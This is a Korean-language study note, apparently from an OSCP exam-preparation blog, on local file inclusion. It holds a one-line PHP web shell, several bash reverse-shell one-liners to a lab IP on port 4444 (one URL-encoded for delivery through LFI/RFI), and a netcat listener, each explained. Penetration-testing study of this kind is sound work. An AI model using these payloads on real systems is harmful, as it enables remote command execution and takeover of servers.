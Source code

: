 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
author: 마준영
categories: oscp
tags: 
top: 0
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드 및 명령어
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘
 **1. `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`**

- **기능**:
    
    - Bash를 인터랙티브 모드(`-i`)로 실행하고, 표준 입력, 표준 출력, 표준 에러를 리디렉션하여 원격 서버(192.168.119.3)와 TCP 연결을 생성.
    - 포트 4444에서 연결이 이루어지면 공격자는 원격 시스템에 명령을 실행할 수 있음.
- **주요 특징**:
    
    - **직접 실행**: Bash 환경에서 바로 실행 가능한 간단한 명령.
    - **제약 사항**:
        - 시스템이 기본적으로 **Bash 셸**을 지원해야 함.
        - 명령이 Bourne Shell(`sh`)로 실행되면 호환되지 않음.

---

 **2. `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`**

- **기능**:
    
    - Bash를 실행하면서(`bash -c`) 추가 명령(`bash -i ...`)을 **인수로 전달**.
    - 전달된 명령은 Bash 내부에서 실행되므로, Bash 명령이 직접 실행되지 못하는 경우에도 실행 가능.
- **주요 특징**:
    
    - **더 높은 호환성**:
        - Bourne Shell(`sh`) 환경에서도 Bash 명령을 실행할 수 있도록 함.
    - **실행 방식**:
        - Bash를 사용해 명령 문자열 전체를 실행하도록 명시.
- **사용 이유**:
    
    - 기본 셸이 Bash가 아닌 경우에도 명령이 실행되도록 보장.

---

**3. `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22`**

- **기능**:
    
    - `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` 명령을 **URL 인코딩**한 버전.
    - URL 인코딩:
        - 공백(`%20`) 및 특수 문자(`>`, `&`)를 인코딩해 웹 브라우저나 특정 URL 기반 시스템에서 사용할 수 있도록 함.
- **주요 특징**:
    
    - **웹 환경**에서 명령 전달:
        - 공격자가 웹 기반 LFI(Local File Inclusion) 또는 RFI(Remote File Inclusion) 취약점을 통해 악성 명령어를 전달할 때 사용.
    - **용도**:
        - 웹 애플리케이션에서 공백 및 특수 문자가 제대로 처리되지 않을 때.

---

### **비교 요약**

|명령어|실행 방식|용도 및 특징|
|---|---|---|
|`bash -i >& /dev/tcp/...`|Bash 환경에서 직접 실행|간단하고 바로 실행 가능, 기본 셸이 Bash일 경우.|
|`bash -c "bash -i ..."`|명령을 Bash로 전달|더 높은 호환성 제공, 기본 셸이 sh일 경우에도 실행 가능.|
|`bash%20-c%20%22bash...`|URL 인코딩된 명령|웹 기반 공격 시 사용, LFI/RFI 취약점 활용.|
   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. Netcat을 이용해 리버스쉘 대기
   - **`nc`**:
    
    - Netcat 실행.
- **`-n`**:
    
    - DNS 이름 확인 없이 **순수 숫자 IP**를 사용.
    - 더 빠르고 간단하게 연결을 처리.
- **`-v`**:
    
    - **상세 모드**(verbose mode).
    - 작업 내용을 자세히 출력(예: 연결 상태, 수신된 데이터).
- **`-l`**:
    
    - **수신 대기(listen)** 모드.
    - Netcat이 클라이언트의 연결 요청을 기다림.
- **`-p 4444`**:
    
    - 특정 **포트 번호(4444)**를 지정.
    - 클라이언트가 이 포트로 연결을 시도.
   ```shell
   nc -nvlp 4444
```

